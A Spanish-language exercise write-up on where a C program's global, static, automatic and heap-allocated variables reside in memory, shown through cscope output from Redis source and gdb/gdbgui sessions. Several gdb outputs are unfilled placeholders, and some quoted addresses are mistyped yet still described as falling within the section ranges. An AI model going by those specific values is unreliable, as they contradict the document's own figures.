src/server.c genRedisInfoStringLatencyStats 6574 info = genRedisInfoStringLatencyStats(info, server.commands);
src/server.c dictFind 6579 if (all_sections || (dictFind(section_dict,"cluster") != NULL)) {
src/server.c sdscat 6580 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6581 info = sdscatprintf(info,
src/server.c dictFind 6588 if (all_sections || (dictFind(section_dict,"keyspace") != NULL)) {
src/server.c sdscat 6589 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6590 info = sdscatprintf(info, "# Keyspace\r\n");
src/server.c kvstoreSize 6594 keys = kvstoreSize(server.db[j].keys);
src/server.c kvstoreSize 6595 vkeys = kvstoreSize(server.db[j].expires);
src/server.c estoreSize 6596 subexpiry = estoreSize(server.db[j].subexpires);
src/server.c sdscatprintf 6599 info = sdscatprintf(info,
src/server.c dictFind 6607 if (all_sections || (dictFind(section_dict,"keysizes") != NULL)) {
src/server.c sdscat 6608 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6609 info = sdscatprintf(info, "# Keysizes\r\n");
src/server.c serverAssert 6618 serverAssert(sizeof(typestr)/sizeof(typestr[0]) == OBJ_TYPE_BASIC_MAX);
src/server.c kvstoreSize 6631 if (kvstoreSize(server.db[dbnum].keys) == 0)
src/server.c kvstoreGetMetadata 6635 int64_t *kvstoreHist = kvstoreGetMetadata(server.db[dbnum].keys)->keysizes_hist[type];
src/server.c snprintf 6640 buflen += snprintf(buf + buflen, sizeof(buf) - buflen, "db%d_%s:", dbnum, typestr[type]);
src/server.c snprintf 6646 int res = snprintf(buf + buflen, sizeof(buf) - buflen,
src/server.c sdscatprintf 6655 if (cnt) info = sdscatprintf(info, "%s\r\n", buf);
src/server.c dictFind 6665 if (everything || dictFind(section_dict, "modules") != NULL || sections < (int )dictSize(section_dict) ||
src/server.c dictSize 6665 if (everything || dictFind(section_dict, "modules") != NULL || sections < (int )dictSize(section_dict) ||
src/server.c dictSize 6666 (all_sections && dictSize(section_dict)))
src/server.c modulesCollectInfo 6669 info = modulesCollectInfo(info,
src/server.c dictFind 6670 everything || dictFind(section_dict, "modules") != NULL ? NULL: section_dict,
src/server.c dictFind 6675 if (dictFind(section_dict, "debug") != NULL) {
src/server.c sdscat 6676 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6677 info = sdscatprintf(info, "# Debug\r\n" FMTARGS(
src/server.c FMTARGS 6677 info = sdscatprintf(info, "# Debug\r\n" FMTARGS(
```


### Cscope en Modo interactivo
```
cscope -d 
```
En el menú de cscope, escogemos la opción: 2 – Find functions called by this function:



Escribimos la función que nos pide el ejercicio: genRedisInfoString:  
  
donde:
- Hay 188 resultados en total pero sólo muestra las líneas 1-9.
- Quedan 180 más por ver.
- Para ver los siguientes resultados: Pulsamos la barra espaciadora.

------------------------------------


# Ejercicio 5 - Análisis de las variables de un programa
Vamos a analizar las variables de un programa y donde se van a ubicar en memoria.

Respecto del siguiente programa, indicad de que tipo son cada una de las variables, en que zona o segmento de la memoria se ubicará y que valor por defecto poseerá al inicio del programa.
```
#include <stdio.h>
#include <stdlib.h>
 
int gni;
int gi = 99;
 
void f() {
    static int eni;
    static int ei = 99;
 
    printf("Dir: %p Val: %i\n", &eni, eni);
    printf("Dir: %p Val: %i\n", &ei, ei);
}
 
int main() {
    f();
    int *pae = malloc(sizeof(int));
    printf("Dir: %p Val: %i\n", pae, *pae);
 
    *pae = 100;
    printf("Dir: %p Val: %i\n", pae, *pae);
 
    gni = 9;
    printf("Dir: %p Val: %i\n", &gni, gni);
    printf("Dir: %p Val: %i\n", &gi, gi);
 
    free(pae);
    return 0;
}
```

## Previo: Instalación de gdbgui
Para comprobar dónde se almacenan las variables del programa, vamos a instalar gdbgui. Gdbgui es una interfaz gráfica para el depurador gdb que se ejecuta en el navegador web. Es una forma más amigable y visual de usar gdb para depurar, ver variables y examinar memoria.

**Instalamos gdbgui en un entorno virtual python en linux:**
```
# 1) Preparar
sudo apt install python3 python3-pip python3-venv gdb

# 2) Proyecto python + Entorno virtual venv
mkdir ~/gdbgui_project
cd ~/gdbgui_project
python3 -m venv venv
source venv/bin/activate
pip install --upgrade pip
pip install gdbgui

# 3) Ejecutar
gdbgui
```

**Compilamos con símbolos el programa del ejercicio:**
```
gcc -g -O0 ejercicio5.c -o ejercicio5
```

**Cargamos el binario en gdbgui:**  
Normalmente en el navegador, accedemos a http://127.0.0.1:5000 y abrimos el binario compilado para ir viendo las variables.
```
./ejercicio5
```







**Añadimos breakpoints clave en gdbgui:**  
- En la función f().
- En main() en la línea: int *pae = malloc(sizeof(int));
- En main() en la línea: *pae = 100;
- En main() en la línea: gni = 9;


**Vemos algunos de los segmentos/secciones del ejecutable:**  


Escribimos en la consola integrada de gdbgui:
```
(gdb) info files
Symbols from "/home/xxniwexx/gdbgui/ejercicio5".
Local exec file:
        `/home/xxniwexx/gdbgui/ejercicio5', file type elf64-x86-64.
        Entry point: 0x1070
        ......
        0x0000000000001070 - 0x0000000000001270 is .text
        ......
        0x0000000000004018 - 0x0000000000004030 is .data
        0x0000000000004030 - 0x0000000000004040 is .bss
```

**Mostramos más detalles por sección:**
``` 
(gdb) maintenance info sections
Exec file: `/home/xxniwexx/gdbgui/ejercicio5', 
        file type elf64-x86-64.
 .....
 [13]     0x00001070->0x00001270 at 0x00001070: .text ALLOC LOAD READONLY CODE HAS_CONTENTS
 .....
 [24]     0x00004018->0x00004030 at 0x00003018: .data ALLOC LOAD DATA HAS_CONTENTS
 [25]     0x00004030->0x00004040 at 0x00003030: .bss ALLOC
 .....
(gdb) 
```

**Vemos el mapa de memoria del proceso:**  
Con esto podremos indentificar en qué segmento/región cae una dirección concreta, como por ejemplo, la de una variable local:
```
(gdb) info proc mappings
process 53004
Mapped address spaces:

Start Addr         End Addr           Size               Offset             Perms File 
0x0000555555554000 0x0000555555555000 0x1000             0x0                r--p  /home/xxniwexx/gdbgui/ejercicio5 
0x0000555555555000 0x0000555555556000 0x1000             0x1000             r-xp  /home/xxniwexx/gdbgui/ejercicio5 
0x0000555555556000 0x0000555555557000 0x1000             0x2000             r--p  /home/xxniwexx/gdbgui/ejercicio5 
0x0000555555557000 0x0000555555558000 0x1000             0x2000             r--p  /home/xxniwexx/gdbgui/ejercicio5 
0x0000555555558000 0x0000555555559000 0x1000             0x3000             rw-p  /home/xxniwexx/gdbgui/ejercicio5 
0x0000555555559000 0x000055555557a000 0x21000            0x0                rw-p  [heap] 
0x00007ffff7da9000 0x00007ffff7dac000 0x3000             0x0                rw-p   
0x00007ffff7dac000 0x00007ffff7dd4000 0x28000            0x0                r--p  /usr/lib/x86_64-linux-gnu/libc.so.6 
0x00007ffff7dd4000 0x00007ffff7f39000 0x165000           0x28000            r-xp  /usr/lib/x86_64-linux-gnu/libc.so.6 
0x00007ffff7f39000 0x00007ffff7f8f000 0x56000            0x18d000           r--p  /usr/lib/x86_64-linux-gnu/libc.so.6 
0x00007ffff7f8f000 0x00007ffff7f93000 0x4000             0x1e2000           r--p  /usr/lib/x86_64-linux-gnu/libc.so.6 
0x00007ffff7f93000 0x00007ffff7f95000 0x2000             0x1e6000           rw-p  /usr/lib/x86_64-linux-gnu/libc.so.6 
0x00007ffff7f95000 0x00007ffff7fa2000 0xd000             0x0                rw-p   
0x00007ffff7fbd000 0x00007ffff7fbf000 0x2000             0x0                rw-p   
0x00007ffff7fbf000 0x00007ffff7fc3000 0x4000             0x0                r--p  [vvar] 
0x00007ffff7fc3000 0x00007ffff7fc5000 0x2000             0x0                r--p  [vvar_vclock] 
0x00007ffff7fc5000 0x00007ffff7fc7000 0x2000             0x0                r-xp  [vdso] 
0x00007ffff7fc7000 0x00007ffff7fc8000 0x1000             0x0                r--p  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 
0x00007ffff7fc8000 0x00007ffff7ff0000 0x28000            0x1000             r-xp  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 
0x00007ffff7ff0000 0x00007ffff7ffb000 0xb000             0x29000            r--p  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 
0x00007ffff7ffb000 0x00007ffff7ffd000 0x2000             0x34000            r--p  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 
0x00007ffff7ffd000 0x00007ffff7ffe000 0x1000             0x36000            rw-p  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 
0x00007ffff7ffe000 0x00007ffff7fff000 0x1000             0x0                rw-p   
0x00007ffffffdd000 0x00007ffffffff000 0x22000            0x0                rw-p  [stack] 
(gdb) 
```


## Análisis de las variables del programa
Las variables del programa se reparten entre segmento de datos (inicializados y no inicializados), stack y heap, y sus valores por defecto dependen de si son estáticas/globales o automáticas/dinámicas. 


### 1. `gni` (Global No Inicializada)
- **Tipo:** int. Entero con signo.
- **Ámbito:** Global.
- **Duración:** Estática. Existe durante toda la ejecución.
- **Ubicación (Segmento):** BSS (Block Started by Symbol). Este segmento almacena las variables globales y estáticas que no tienen una inicialización explícita en el código.
- **Valor por defecto:** 0. El sistema operativo limpia este segmento (lo pone a ceros) antes de ejecutar el main ya que es una variable global de almacenamiento estático sin inicializar.


donde:
- En el panel de expressions de gdbgui vemos la dirección de `gni`: `gni 0x5555555558034 int *` y `*gni 9 int`.
- En el panel de memory de gbbgui vemos: `0x5555555558034 → bytes 09 00 00 00 ...` → valor 9 en little-endian, que coincide con la asignación `gni = 9;`.


**Revisamos dónde cae esa dirección `0x5555555558034`:**  
Comparamos esta dirección con el resultado de `maintenance info sections`. Así identificaremos si la variable está en .data, .bss, heap, stack, etc.
``` 
(gdb) maintenance info sections
Exec file: `/home/xxniwexx/gdbgui/ejercicio5', 
        file type elf64-x86-64.
 ......
 [24]     0x555555558018->0x555555558030 at 0x00003018: .data ALLOC LOAD DATA HAS_CONTENTS
 [25]     0x555555558030->0x555555558040 at 0x00003030: .bss ALLOC
 [26]     0x00000000->0x0000001e at 0x00003030: .comment READONLY HAS_CONTENTS
 ......
```
donde:
- Inicio de `.bss`: 0x55555555803
- Fin de `.bss`: 0x555555558040
- Dirección de `gni`: 0x555555555803
- Concluimos que la dirección de `gni` cae dentro del rango de la sección `.bss`, por lo tanto la variable `gni` está en `.bss`.


### 2. `gi` (Global Inicializada)
- **Tipo:** int. Entero con signo.
- **Ámbito:** Global.
- **Duración:** Estática. Existe durante toda la ejecución.
- **Ubicación (Segmento):** Data Segment (Datos Inicializados). Este segmento es para variables globales o estáticas a las que se les ha dado un valor inicial (= 99).
- **Valor por defecto:** 99. El valor se copia desde el archivo ejecutable a la memoria al iniciar el programa.
- **Dirección de la variable `gi`:**
  ```
  (gdb) p &gi
  ??? = ?????????????
  ```
  Dirección de esta variable: `0x00000000000`.
- Por el mismo razonamiento anterior con las secciones:
  - Inicio de `.data`: `0x555555558018`.
  - Fin de `.data`: `0x555555558030`.
  - Concluimos que la dirección de `gi` cae dentro del rango de la sección `.data`, por lo tanto la variable `gi` está en `.data`.


### 3. `eni` (Estática No Inicializada)
- **Tipo:** int. Entero con signo.
- **Ámbito:** Local. De bloque. Solo visible dentro de `f`.
- **Duración:** Estática. No se destruye al salir de `f`. Aunque está declarada dentro de una función (f), la palabra clave static le dice al compilador que la trate como una global en cuanto a su vida (dura todo el programa), pero con ámbito local (solo visible en f). 
- **Ubicación (Segmento):** BSS. Al no tener valor, va al BSS.
- **Valor por defecto:** 0, por ser estática sin inicializar explícitamente.
- **Dirección de la variable `eni`:**
  ```
  (gdb) p &eni
  ??? = ?????????????
  ```
  Dirección de esta variable: `0x555555555038`.
- Por el mismo razonamiento anterior con las secciones:
  - Inicio de `.bss`: `0x55555555803`.
  - Fin de `.bss`: `0x555555558040`.
  - Concluimos que la dirección de `eni` cae dentro del rango de la sección `.bss`, por lo tanto la variable `eni` está en `.bss`.


### 4. `ei` (Estática Inicializada)
- **Tipo:** int. Entero con signo.
- **Ámbito:** Local. De bloque. Solo visible dentro de `f`.
- **Duración:** Estática. No se destruye al salir de `f`. Aunque está declarada dentro de una función (f), la palabra clave static le dice al compilador que la trate como una global en cuanto a su vida (dura todo el programa), pero con ámbito local (solo visible en f). 
- **Ubicación (Segmento):** Data Segment. Al ser static y tener un valor asignado (= 99), se guarda junto con las globales inicializadas.
- **Valor por defecto:** 99, valor de inicialización explícito.​



**Dirección de la variable `ei`:**  
```
(gdb) p &ei
$2 = (int *) 0x55555555802c <ei>
```
donde:
- `ei` se encuentra en la dirección: `0x55555555802c`.


**Revisamos dónde cae esa dirección `0x55555555802c`:**  
Comparamos esta dirección con el resultado de `maintenance info sections`. Así identificaremos si la variable está en .data, .bss, heap, stack, etc.
``` 
(gdb) maintenance info sections
Exec file: `/home/xxniwexx/gdbgui/ejercicio5', 
        file type elf64-x86-64.
 ......
 [24]     0x555555558018->0x555555558030 at 0x00003018: .data ALLOC LOAD DATA HAS_CONTENTS
 [25]     0x555555558030->0x555555558040 at 0x00003030: .bss ALLOC
 [26]     0x00000000->0x0000001e at 0x00003030: .comment READONLY HAS_CONTENTS
 ......
```
donde:
- Inicio de `.data`: `0x555555558018`.
- Fin de `.data`: `0x555555558030`.
- Dirección `de ei`: `0x55555555802c`.
- Concluimos que la dirección de `ei` cae dentro del rango de la sección `.data`, por lo tanto la variable `ei` está en `.data`.


### 5. `pae` (El puntero en sí) y `*pae` (El contenido apuntado / Memoria Dinámica)
**`pae:`**
- **Tipo:** int *. Puntero a entero.
- **Ámbito:** De bloque. Solo visible dentro de main.
- **Duración:** Automática. Es una variable local automática declarada dentro de main sin static. Solo dura mientras main se ejecuta.
- **Ubicación (Segmento):** Stack (Pila). 
- **Valor por defecto:** Valor inicial: el valor devuelto por la instrucción `malloc(sizeof(int))` que en cuanto se ejecute esa intrucción será, una dirección del heap. Si pae se declara sin inicializar, entonces contendrá un valor indeterminado, que es basura del stack, hasta que se le asigne algo.


**`*pae`:**
- **Tipo:** int. Es un bloque de memoria para un entero (int). El entero al que apunta.
- **Ámbito:** No tiene nombre en el código, se accede vía el puntero. *pae = “el contenido de la dirección almacenada en pae”. Solo podemos llegar a él a través del puntero. En verdad, **NO es una variable, es un objeto dinámico** al que apunta `pae`.
- **Duración:** Dinámica, mientras no se haga free(pae).
- **Ubicación (Segmento):** Heap (Montón). La función malloc(sizeof(int)) solicita espacio en esta zona de memoria dinámica. pae (en el Stack) guarda la dirección de este bloque (en el Heap).
- **Valor por defecto:** Indeterminado (Basura). `malloc` reserva memoria pero no la inicializa, por lo que el contenido es basura hasta que se le asigne en la instrucción ➞ ➞ ➞ *pae = 100;.


**Estamos en el breakpoint de la línea 17, justo antes de ejecutar la llamada a malloc:**  

donde:
- `pae` es una variable local automática de tipo int * que vive en el stack de main. En este punto GDB resuelve `pae = 0x7fffffffdbf0` (valor del puntero), que es basura porque aún no se ha ejecutado `pae = malloc(sizeof(int));`.
- En el panel de memory, los bytes `01 00 00 00 00 00 00 00` son simplemente la “basura” que hay en esa zona del stack antes de inicializar `pae` con el resultado de `malloc`.

**Recordando los operadores:**
- `&x` devuelve la dirección de la variable `x`.
- `*p` accede al valor al que apunta el puntero `p`.

**En nuestro caso:**
- `pae`
  - Es la variable puntero.
  - Vive en el stack.
  - Su valor es “una dirección” (actualmente basura).

- `&pae`
  - Es la dirección de la variable `pae`.
  - Tipo: `int *`.
  - En GDB vemos:
    ```
    (gdb) p &pae
    $3 = (int **) 0x7fffffffdb58
    ```
    Es el hueco del stack donde se guarda el puntero pae (zona `0x7fffffff`… → stack).

- `*pae`
  - Es el entero al que apunta pae.
  - En este breakpoint concreto pae no apunta a nada válido, así que hacer *pae o &*pae tiene un comportamiento indefinido.

- `&*pae`
  - En general, para un puntero válido, es la dirección del entero al que apunta pae y se cumple `&*pae == pae`.
  - Aquí GDB imprime:
    ```
    (gdb) p &*pae
    $4 = (int *) 0x7fffffffdbf0
    ```
    Pero ese valor no tiene significado real en el programa, porque pae todavía contiene basura.

**En este breakpoint concreto:**
- `pae` ≈ 0x7fffffffdbf0 (basura),
- `&pae` = 0x7fffffffdb58 (dirección del puntero en el stack).


**Estamos en el breakpoint de la línea 18, justo despues de ejecutar la llamada a malloc:**

donde:
- `&pae = 0x7fffffffdb58`
  - Es la dirección de la variable pae.
  - Esa dirección cae en la zona 0x7fffffffdb58, que corresponde al stack.
  - Es “el hueco de stack” donde se almacena el puntero pae.

- `&*pae = 0x5555555596b0`
  - El resultado de evaluar &*pae es 0x5555555596b0.
  - Por la identidad del lenguaje C, cuando pae es un puntero válido, &*pae es exactamente el mismo valor que pae.
  - Es decir, 0x5555555596b0 es la dirección de memoria a la que apunta el puntero pae.
  - Esa dirección cae en la zona 0x5555555596b0, que en tu proceso corresponde al heap, donde está el int reservado con malloc.

- `pae 0x5555555596b0 int *`:
  - pae es la variable automática en el stack.
  - Su contenido actual es 0x5555555596b0, que es la dirección en el heap del objeto int que has reservado.
  - Se cumple la identidad (mientras pae sea un puntero válido (no basura, no NULL)): `&*pae == pae`.


**Estamos en el breakpoint de la línea 21:**  
